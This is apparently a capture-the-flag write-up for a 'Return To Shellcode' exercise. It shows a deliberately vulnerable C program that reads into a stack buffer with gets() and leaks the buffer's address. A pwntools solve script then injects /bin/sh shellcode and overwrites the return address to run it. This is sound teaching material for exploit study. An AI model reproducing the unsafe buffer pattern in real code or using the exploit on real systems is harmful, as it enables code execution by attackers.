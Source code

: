 ### Files 
[chal](https://github.com/fahimalshihab/CTF/blob/81320d4ca6ae70fff65015c29fd4971a2d2fce04/Binary%20Exploitation/Return%20To%20Shellcode/chal)
# Description 
Sometimes it is possible to inject our own code into a program. The code we inject is commonly called “shellcode”.

Once we’ve injected out shellcode into the process, we can jump to it and start executing. Commonly we want to call /bin/sh.
```
#include <stdio.h>
#include <string.h>
// gcc -no-pie -fno-stack-protector -z execstack -g -o chal chal.c

int main() {
    char buffer1[128];

    printf("The buffer is located at: %p\n", buffer1);

    gets(buffer1);
}
```
# Solution 
We will write shellcode to the stack, and then abusing the buffer overflow we will jump to the shellcode.

### Solve Script 
```
import pwn

elf = pwn.ELF("./chal")
p = elf.process()

pwn.context.binary = elf
shellcode = pwn.shellcraft.sh()
print(shellcode)
shellcode = pwn.asm(shellcode)

p.recvuntil("The buffer is located at: ")
buffer_address = int(p.recvline().strip(), 16)
print(f"{hex(buffer_address)=}")

p.sendline(shellcode.ljust(128, b'\x00') + pwn.p64(0xdeadbeef) + pwn.p64(buffer_address))
p.interactive()
```

